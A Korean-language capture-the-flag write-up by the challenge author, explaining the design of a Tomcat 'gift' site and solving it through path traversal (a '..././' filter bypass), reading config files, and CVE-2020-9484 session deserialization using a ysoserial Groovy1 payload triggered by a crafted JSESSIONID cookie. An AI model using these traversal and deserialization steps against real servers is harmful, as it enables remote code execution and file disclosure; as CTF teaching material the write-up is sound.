




# 출제 의도

올해 초에 발표된 Apache Tomcat CVE-2020-9484를 이용해서 문제를 만들어보고 싶었습니다. 문제를 만들면서 이 취약점이 있는 서비스를 만들고 싶은데... 만약 이런 사이트가 있었다면 어떤 식으로 취약점에 접근할 수 있을까?라는 생각을 하면서 만들었습니다.

session이 저장되는 위치와 자신이 올린 파일이 업로드되는 위치를 모두 알아야 하고 또 해당 취약점에 취약한 버전이라는 것도 알아야 해서 local에 있는 파일을 모두 볼 수 있으면 되겠다는 생각을 했습니다. ~~lock과 angrforge의 허술함은 여기에서 왔다.~~

RCE를 활용해야 한다는 것과 실행할 파일의 위치를 `special.jsp`에 넣어놨는데 좀 더 잘 보이는 곳에 넣어둘 걸... 하는 생각을 했습니다.


제가 웹 알못이다 보니 이런저런 것을 구현할 때 주위의 웹 하는 친구들한테 물어보며 이거 이러이러하게 해서 플래그에 접근하는 건데 게싱이 심하지 않을까? 사람들이 이런 식으로 접근할 수 있을까? 내가 이거 어떻게 하는지 잘 몰라서 이렇게 해봤는데 괜찮을까? 물어보면서 만들었습니다. ~~일단 있는 거 다 해보고 파일은 다 찾아본다며~~

구현을 도와준다던 놈들은 jsp라고 하니까 다 도망가더군요 하하하... 잡설이 길었습니다.

# Solution


메인 화면입니다. 저기 깃발(flag) 모양에 Special gift가 숨겨져 있다!라고 되어있습니다. 이걸 description에 적어놨으면 참 좋았을걸 왜 안 적어놨지? 일단 로그인을 해야 기능을 볼 수 있는 것 같으니 로그인을 해봅시다.


로그인을 하면 제공하는 기능을 볼 수 있습니다. 사이트에서 제공하는 기능을 정리하면 아래와 같습니다.

- `Gift List`
    - 전송한 선물의 리스트를 볼 수 있다.
    - file name을 `GET`을 통해 받는다.
- `Send List`
    - 선물을 전송할 수 있다.
- `Community`
    - 게시판 기능으로 글을 작성할 수 있다.

선물을 전송하면 산타가 그 선물을 준다고 하고 gift list에서 올린 선물 리스트의 내용을 확인할 수 있으니 일단 `Send List`를 통해 선물을 전송하고 난 후 `Gift List`에서 어떠한 식으로 확인할 수 있는지를 확인해봅시다.


txt 파일과 자신들의 secret한 파일만 올릴 수 있다고 하니 일단 txt 파일을 올려봅시다.


전송이 완료된 후 `Gift List`를 통해 파일 리스트를 확인하면 `<name>`'s gift list라는 제목과 함께 업로드한 파일이 표시가 되고 해당 파일의 내용을 확인할 수 있습니다.


gift list를 불러올 때 사용되는 `<name>`은 `GET`을 통해 불러오는 것으로 추정되므로 해당 인자 값을 수정해봅니다.


name을 변경하자 testa's gift list를 읽어오고 아무것도 출력이 안 되는 것을 볼 수 있습니다.

name에 따라 다른 디렉터리를 생성하고 해당 폴더에 파일이 올라간다는 가설을 세우고 path traversal이 가능한지 확인을 해봅시다.



name에 `.`을 입력하자 아까 위에서 확인한 두 개의 폴더가 나옵니다. 더 위로 올라가 봅시다.

`../`나 `....//`은 필터링이 되어 있어 디렉터리 리스팅이 불가능하지만 `..././`은 가능합니다.


해당 폴더에 진입하면 gift 폴더 안에서 username으로 gift list가 관리되고 있음을 알 수 있습니다.


한 번 더 올라가면 이러한 디렉터리가 보입니다. tomcat의 상위 디렉터리인데 이를 통해 tomcat을 통해 구동되고 있음을 확인할 수 있습니다. 먼저 웹페이지 소스코드 파일은 webapps에 들어있으므로 해당 디렉터리를 들어가서 어떠한 파일이 있는지 확인해봅시다.


`special.jsp`라는 파일이 있네요. 메인에서 special gift가 숨겨져 있다고 했으니 해당 jsp를 확인해봅시다.


`special_gift` 파일을 찾아서 실행하면 이 디렉터리에서 특별한 선물을 볼 수 있다고 합니다.

tomcat 디렉터리로 가서 RELEASE-NOTES의 내용을 확인해봅시다.



tomcat-8.5.54 버전에서 동작하고 있습니다. 해당 버전은 CVE-2020-9484 버전에 영향을 받는 버전이고 해당 취약점에 영향을 받는지 확인하는 방법은 아래와 같습니다.

- tomcat이 session을 PersistenceManager를 통해 세션을 관리함
- FileStore를 통해 Directory 경로를 지정함
- arbitrary file upload가 가능하며 해당 파일이 어디에 저장되는지 알 수 있음

현재 arbitrary file upload가 가능하며 파일이 업로드되는 위치도 알 수 있으므로 `conf/context.xml`을 통해 PersistenceManager를 사용 중인지, 사용 중이라면 FileStore로 Directory를 지정해서 저장하는지, 저장한다면 session이 저장되는 경로는 어딘지 확인합시다.(아까 위에서 sessions 폴더를 본 것 같긴 한데)

`detail.jsp?file=..././..././..././conf/context.xml`로 접근하면 `conf/context.xml`의 내용을 확인할 수 있습니다.



PersistentManager, FileStore를 사용하며 session이 저장되는 경로는 `/usr/local/tomcat/sessions`네요.

해당 취약점은 session을 deserialize 하면서 일어나는 취약점이므로 gadget도 확인해봅시다.


`/lib` 폴더에 `groovy-2.3.9.jar` 가 존재하는 것을 알 수 있습니다.

이제 `special_gift` 파일의 위치를 찾아보면


최상위 경로에 있는 것을 볼 수 있습니다.(이것도 위치를 알려줬어야...ㅠㅠ) 이제 해당 취약점을 활용하여 `special_gift` 바이너리를 실행하면 `/webapps/ROOT` 에 flag 파일이 생성될 것입니다.

그전에 해당 취약점을 활용하는 것이 맞는지 upload.jsp의 내용으로 올릴 수 있는 special file이 session 파일인지 확인해봅시다.



허용되어있는 확장자가 `.txt`와 `.session`파일임을 알 수 있습니다!


흠.. 일단 exploit 과정을 정리하면 다음과 같습니다.

- file이 업로드되는 경로는 `tomcat/media/gift/<name>`이다.
- sessions이 저장되는 경로는 `tomcat/sessions`이다.
- `special.jsp` 에 따르면 `/special_gift`를 실행하면 flag 파일이 생성된다.
- `/bin/bash -c /special_gift`를 수행하면 `special_gift` 파일이 실행되고 flag를 확인할 수 있다.
- serialize session 생성

```
idioth@ubuntu:~$ java -jar ysoserial.jar Groovy1 "/bin/bash -c /special_gift" > exploit.session
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by org.codehaus.groovy.reflection.CachedClass$3$1 (file:/home/idioth/ysoserial.jar) to method java.lang.Object.finalize()
WARNING: Please consider reporting this to the maintainers of org.codehaus.groovy.reflection.CachedClass$3$1
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
```

- 해당 session file으로 접근

```
idioth@ubuntu:~$ curl 'http://192.168.48.128/index.jsp' -H 'Cookie:JSESSIONID=../media/gift/test/exploit'
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1></body></html>
```


XMAS{0mg_u_f1nd_a_sp3cia1_g1ft!!}